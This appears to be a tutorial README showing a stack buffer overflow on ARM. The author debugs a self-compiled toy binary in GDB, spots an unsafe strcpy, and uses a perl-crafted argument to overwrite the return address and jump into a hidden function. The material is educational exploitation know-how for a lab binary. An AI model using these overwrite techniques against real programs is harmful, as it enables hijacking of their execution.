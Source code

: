 # Buffer overflow on ARM architecture


## Prerequisites
-	A RaspberryPi and a distro. For this tutorial, I had an up-to-date Raspbian Stretch Lite with LXDE.
-	GCC and GDB.

## ARM registers and stack
TODO

## An example of buffer overflow
### Initial state
- We have a binary without its source code but compiled with debug information.
- We know how to use it: `./prog2 PASS` where `PASS` is a 4-character string.
- We would like to know if there's interesting stuff or even dead code in it.

### Playground
Run GDB:
```bash
gdb prog2
```
What we can disassemble with GDB:
```assembly
(gdb) disassemble
/usr/include/arm-linux-gnueabihf/bits/sys_errlist.h  __gmon_start__                                       frame_dummy
/usr/include/arm-linux-gnueabihf/bits/types.h        __gmon_start__@plt                                   int
/usr/include/libio.h                                 __init_array_end                                     long int
/usr/include/stdio.h                                 __init_array_start                                   long long int
/usr/lib/gcc/arm-linux-gnueabihf/6/include/stddef.h  __libc_csu_fini                                      long long unsigned int
_DYNAMIC                                             __libc_csu_init                                      long unsigned int
_GLOBAL_OFFSET_TABLE_                                __libc_start_main                                    main
_IO_2_1_stderr_                                      __libc_start_main@plt                                prog2.c
_IO_2_1_stdin_                                       __off64_t                                            puts
_IO_2_1_stdout_                                      __off_t                                              puts@plt
_IO_FILE                                             __quad_t                                             register_tm_clones
_IO_lock_t                                           _bss_end__                                           short int
_IO_marker                                           _edata                                               short unsigned int
_IO_stdin_used                                       _end                                                 signed char
__FRAME_END__                                        _fini                                                size_t
__JCR_END__                                          _init                                                sizetype
__JCR_LIST__                                         _start                                               stderr
__TMC_END__                                          abort                                                stdin
__bss_end__                                          abort@plt                                            stdout
__bss_start                                          call_weak_fn                                         strcpy
__bss_start__                                        char                                                 strcpy@plt
__data_start                                         completed                                            sys_errlist
__do_global_dtors_aux                                data_start                                           sys_nerr
__do_global_dtors_aux_fini_array_entry               deregister_tm_clones                                 unsigned char
__dso_handle                                         dont_touch_this                                      unsigned int
__end__                                              exit
__frame_dummy_init_array_entry                       exit@plt
```
Lots of stuff there... We can find at least two interesting:
- `main`
- `dont_touch_this`. Yes, I compiled the code myself for this tutorial. Of course, you should not name critical code like this!

Let's disassemble the main function
```assembly
(gdb) disassemble main
Dump of assembler code for function main:
   0x000104b8 <+0>:     push    {r11, lr}
   0x000104bc <+4>:     add     r11, sp, #4
   0x000104c0 <+8>:     sub     sp, sp, #16
   0x000104c4 <+12>:    str     r0, [r11, #-16]
   0x000104c8 <+16>:    str     r1, [r11, #-20] ; 0xffffffec
   0x000104cc <+20>:    ldr     r3, [r11, #-20] ; 0xffffffec
   0x000104d0 <+24>:    add     r3, r3, #4
   0x000104d4 <+28>:    ldr     r2, [r3]
   0x000104d8 <+32>:    sub     r3, r11, #8
   0x000104dc <+36>:    mov     r1, r2
   0x000104e0 <+40>:    mov     r0, r3
   0x000104e4 <+44>:    bl      0x1032c <strcpy@plt>
   0x000104e8 <+48>:    mov     r3, #0
   0x000104ec <+52>:    mov     r0, r3
   0x000104f0 <+56>:    sub     sp, r11, #4
   0x000104f4 <+60>:    pop     {r11, pc}
End of assembler dump.
```
- No call to `dont_touch_this`. It means this is a dead code section. Why?
- Oh, `strcpy`! We found a breach! This functions must not be used nowadays as it doesn't check buffer length (https://security.web.cern.ch/security/recommendations/en/codetools/c.shtml). We should try a buffer overflow at this line.

If we disassemble `dont_touch_this`, we can get the entry point of this function (address `0x0001049c`):
```assembly
(gdb) disassemble dont_touch_this
Dump of assembler code for function dont_touch_this:
   0x0001049c <+0>:     push    {r11, lr}
   0x000104a0 <+4>:     add     r11, sp, #4
   0x000104a4 <+8>:     ldr     r0, [pc, #8]    ; 0x104b4 <dont_touch_this+24>
   0x000104a8 <+12>:    bl      0x10338 <puts@plt>
   0x000104ac <+16>:    mov     r0, #0
   0x000104b0 <+20>:    bl      0x1035c <exit@plt>
   0x000104b4 <+24>:    andeq   r0, r1, r8, ror #10
End of assembler dump.
```
Putting a breakpoint right after the `strcpy`: 
```assembly
(gdb) break *0x000104e8
Breakpoint 1 at 0x104e8: file prog2.c, line 14.
```
Running the program with valid input and checking registers and stack values:
```assembly
(gdb) run AAAA
Starting program: /home/pi/Documents/tutorial/prog2 AAAA
Breakpoint 1, main (argc=2, argv=0x7efff684) at prog2.c:14
14          return 0;
```

```assembly
(gdb) info registers
r0             0x7efff524       2130703652
r1             0x7efff7d7       2130704343
r2             0x0      0
r3             0x9      9
r4             0x104f8  66808
r5             0x0      0
r6             0x10374  66420
r7             0x0      0
r8             0x0      0
r9             0x0      0
r10            0x76fff000       1996484608
r11            0x7efff52c       2130703660
r12            0x7efff524       2130703652
sp             0x7efff518       0x7efff518
lr             0x104e8  66792
pc             0x104e8  0x104e8 <main+48>
cpsr           0x20000010       536870928
```
```assembly
(gdb) x/16x $sp
0x7efff518:     0x7efff684      0x00000002      0x00000000      0x41414141
0x7efff528:     0x00000000      0x76e80678      0x76fa5000      0x7efff684
0x7efff538:     0x00000002      0x000104b8      0x76ffecf0      0x7efff5d0
0x7efff548:     0xf35a2f10      0xfb4ddc14      0x000104f8      0x00000000
```
- In the stack, we can see our `AAAA` as `0x41414141` (ASCII codes, little-endian).
- `0x76e80678` is the return address.

Same thing with longer input:
```assembly
(gdb) run ABCDABCD
Starting program: /home/pi/Documents/tutorial/prog2 ABCDABCD
```

```assembly
(gdb) x/16x $sp
0x7efff518:     0x7efff684      0x00000002      0x00000000      0x44434241
0x7efff528:     0x44434241      0x76e80600      0x76fa5000      0x7efff684
0x7efff538:     0x00000002      0x000104b8      0x76ffecf0      0x7efff5d0
0x7efff548:     0xc9cf5894      0xc1d8ab90      0x000104f8      0x00000000
```
- As expected, we find the `0x44434241` twice (corresponds to `DCBA`).  

```assembly
(gdb) continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x76e80600 in __libc_start_main (main=0x7efff684, argc=1996115968, argv=0x76e80600 <__libc_start_main+156>, init=0x104f8 <__libc_csu_init>,
    fini=0x10558 <__libc_csu_fini>, rtld_fini=0x76fdf9b8 <_dl_fini>, stack_end=0x7efff684) at libc-start.c:247
247     libc-start.c: No such file or directory.
```
If we continue the program execution, we see a segfault while the return address is `0x76e80600`..
There's already a buffer overflow here. However, it would be useful to redirect it to the `dont_touch_this` method to see what's in there.

```bash
pi@raspberrypi:~/Documents/tutorial $ ./prog2 $(perl -e 'print "ABCDABCD\x9c\x04\x01";')
The master key is 0xDEADBEEF
```
YES! We entered the dead code and found a master key :smiling_imp:
- `ABCDABCD` to fill the stack with some bytes (it could be anything).
- The next 3 bytes are the entry point of `dont_touch_this` in little endian (see GDB output).
- I was lucky because this binary was compiled without stack protection. It seems a bit crazy but, on a default Raspbian distro, the `fstack-protector` flag is not enabled...

If I tried my buffer overflow attack when the binary has been compiled with the stack protector, I would get the following message:
```bash
*** stack smashing detected ***: ./prog2 terminated
Aborted__
```

## References
https://www.merckedsecurity.com/blog/smashing-the-arm-stack-part-1

http://billyellis.net/

